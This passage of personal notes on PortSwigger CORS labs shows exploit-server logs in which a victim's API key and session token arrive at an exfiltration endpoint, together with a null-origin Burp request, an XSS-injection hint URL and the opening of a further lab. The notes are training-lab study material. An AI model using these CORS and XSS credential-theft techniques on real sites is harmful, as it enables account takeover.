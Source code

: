2. test on self and check message log: 
```htm
87.71.215.186   2022-08-19 16:41:30 +0000 "GET /exploit/log?key={%20%20%22username%22:%20%22wiener%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%2282CKtJ3gszMT4N95PU0T3wRElbwurRs2%22,%20%20%22sessions%22:%20[%20%20%20%20%22SCVzq0Lko9twuOts9QvfEHALhOazrOhE%22%20%20]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

3. observe in burp request for the the resources that origin header is null:
```htm
    GET /accountDetails HTTP/1.1
    Host: 0aa000210398a9bfc016255500d30017.web-security-academy.net
    Cookie: session=SCVzq0Lko9twuOts9QvfEHALhOazrOhE
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Origin: null
```



4. send to victim:
```htm
10.0.3.169      2022-08-19 16:42:03 +0000 "GET /exploit/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22unSfbvBwvXnOqgQSNYO3uDPgghF9uuHo%22,%20%20%22sessions%22:%20[%20%20%20%20%22W41u1Z5gGjxDqvucXLLUn3VmpOootRia%22%20%20]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36"
```

username: administrator | apikey: unSfbvBwvXnOqgQSNYO3uDPgghF9uuHo

# great!



hint (cors via xss):

```htm
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```


https://portswigger.net/web-security/cors/lab-breaking-https-attack
# 3. Lab: CORS vulnerability with trusted insecure protocols

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

1. while exloring the site observe stock check redirects to a sub domain: stock.
```htm
GET /?productId=4&storeId=1 HTTP/1.1
Host: stock.0a4900ef046746bcc1e66e39008200a7.web-security-academy.net
..
```

